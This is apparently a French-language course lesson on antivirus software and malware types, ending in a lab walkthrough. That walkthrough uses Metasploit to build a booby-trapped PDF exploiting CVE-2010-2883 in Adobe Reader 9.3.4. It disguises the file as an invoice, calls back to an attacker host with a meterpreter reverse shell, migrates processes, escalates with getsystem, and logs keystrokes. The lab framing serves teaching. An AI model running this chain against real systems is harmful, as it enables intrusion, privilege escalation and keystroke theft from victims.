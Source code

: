 # Antivirus et PDF malicieux

## Antivirus

Un antivirus est un logiciel qui détecte du code malicieux et l'empêche d'être exécuté.

L'approche traditionnelle d'un anti-virus est la détection via les signatures du virus.

Si l'antivirus en est capable, il va détruire le virus. S'il n'est pas capable de le détruire, il va mettre en quarantaine le fichier contenant le virus.

Une autre approche de certains antivirus est la détection par événements louches. Quand un programme réagit anormalement, l'antivirus peut lever une alerte. Ex: Ouvrir un PDF et le logiciel essaie d'écrire dans des répertoires systèmes.

### Antivirus en entreprise

En entreprise, vous aurez à gérer l'antivirus pour l'ensemble des actifs. Les solutions professionnelles aide avec une console installée sur un serveur, qui permet de déployer l'antivirus, monitorer tous les postes et les mettre à jour constamment.

Ex: [Trendmicro Apex One](https://www.trendmicro.com/en_us/business/products/user-protection/sps/endpoint.html)


## Types de code malicieux

### Virus

Un virus est du code qui se propage et peut causer du tord à un ordinateur. Son mode de propagation est via des applications infectées.

### Ver (_worm_)

Un ver est du code malicieux qui se propage à travers un réseau via un service, tel que le partage de fichier de Windows.

### Bombes logiques (_logic bombs_)

Du code malicieux qui est inactif sur un système et attend un événement pour déclencher une attaque, souvent pour détruire des systèmes ou des données.

### Cheval de Troie (_Trojan horse_)

Logiciel banal contenant du code malicieux. Souvent un logiciel gratuit (ou un jeu) que les victimes installent sans se rendre compte qu'ils installent un logiciel malveillant, comme un logiciel espion.

### Rançongiciel (_ransomware_)

Logiciel qui crypte le poste de travail et demande un paiement pour décrypter celui-ci.

### Palmares

Voici les virus et vers les plus connus de tous les temps :

1. CryptoLocker : Ce virus crypte les ordinateurs ciblés et demande une rançon pour décrypter.
2. ILOVEYOU : Transmis par courriel avec comme sujet I Love You. Les victimes ouvraient la pièce jointe, un fichier VBScript qui infectait le pc.
3. MyDoom : Aussi transmis par courriel, en 2004 on estimait que 25% de tous les courriels envoyés étaient infectés par ce virus.
4. Anna Kournikova : Transmis par courriel avec une fichier qui se faisait passer pour une photo de la joueuse de tennis. Les victimes ouvraient la pièce jointe, un fichier VBScript qui infectait le pc.
5. Slammer : Un ver qui en 15 minute à infecté tellement de systèmes que ça crashé l'Internet.
6. Stuxnet : Créé par le gouvernement américain, ce virus a été créé pour détruire les centrifugeuses du programme nucléaire d'Iran.

## Attaque du client avec un PDF malicieux

Les pirates vont souvent combiner une attaque avec des éléments d'ingénierie sociale. Si l'attaquant a des adresses de courriel valides, il peut créer un site web ou un fichier contenant du code malicieux pour prendre le contrôle de l'ordinateur de la victime.

Ce document va faire la démonstration d'une façon de faire facile pour créer un PDF malicieux à l'aide de Metasploit.

Pour réussir une attaque, il est important d'en savoir le plus possible sur notre cible. Dans le cadre de cette démonstration, la cible est la VM Windows XP sur laquelle est installée une version spécifique d'Adobe Reader (9.3.4).

Pour commencer, il faut trouver une faille à exploiter. Une simple recherche dans Google me donne ce site qui explique quel CVE correspond à la version d'Adobe qui est ciblée.

[CVE for Adobe Reader 9.3.4](https://www.cvedetails.com/metasploit-modules/version-96958/Adobe-Acrobat-Reader-9.3.4.html)

On peut voir le CVE 2010-2883.

Faison une recherche dans Metasploit :

`search cve:2010-2883`

Ça donne le module : **exploit/windows/fileformat/adobe_cooltype_sing**

Ce module permet de créer un PDF qui permet d'exécuter du code dû à un bogue de dépassement de cache.

Utilisons donc ce module :

`use exploit/windows/fileformat/adobe_cooltype_sing`

Il faut donner un nom à notre PDF. Disons que c'est une facture :

`set FILENAME /tmp/facture.pdf`

Cherchons un _payload_ à insérer dans le PDF. Dans notre scénario, nous voulons prendre le contrôle du système de la victime avec **Meterpreter**.

`search type:payload platform:windows meterpreter`

Un des modules à l'air intéressant : **payload/windows/meterpreter/reverse_tcp**. Avec ce module, le système de la victime essaiera de se connecter à notre Kali via TCP lors de l'ouverture du PDF.

`set PAYLOAD windows/meterpreter/reverse_tcp`

Ce module a quelques paramètres :

L'adresse du serveur de commande (notre Kali) :

`set LHOST 192.168.40.4`

Le port d'écoute :

`set LPORT 4455`

Une fois configuré, créons le PDF :

`exploit`

Avant d'envoyer le PDF à notre victime (dans ce cas-ci, on le copie sur la VM de Windows XP), il faut ouvrir l'écoute sur le port 4455.

`use exploit/multi/handler`

`set PAYLOAD payload/windows/meterpreter/reverse_tcp`

`set LPORT 4455`

`set LHOST 192.168.40.4`

`exploit`

Le système attend une connexion de la victime.

Quand la victime ouvre le PDF, notre système affiche ceci, nous sommes dans le système :

![09-Metasploit-ouverture-session](../images/2020/06/09-metasploit-ouverture-session.png)

C'est le moment d'agir vite. Pour la victime, Adobe Reader semble gelé. C'est que Meterpreter roule dans le processus d'Adobe Reader. Il faut rapidement migrer vers un autre processus système pour éviter que la victime termine le processus.

Regardons les processus actifs :

`ps`

Important de prendre un processus qui est là en permanence sous le nom de l'utilisateur.

`migrate -P 1216`

Une fois la commande terminée, Adobe Reader peut être fermé, nous resterons actifs.

Pour avoir les droits administrateurs de la machine :

`getsystem`

Si nous voulons copier tout ce qui est écrit au clavier :

`keyscan_start`

Pour voir ce qui a été capturé :

`keyscan_dump`

!!! important  
    Prenez quelques minutes pour faire votre [cartographie](../outils/cartographie.md) de la leçon d'aujourd'hui!   


## Testez vos connaissances  

[Petit quiz sur les antivirus et pdf malicieux](https://forms.office.com/r/BP5zBu2nDM)  
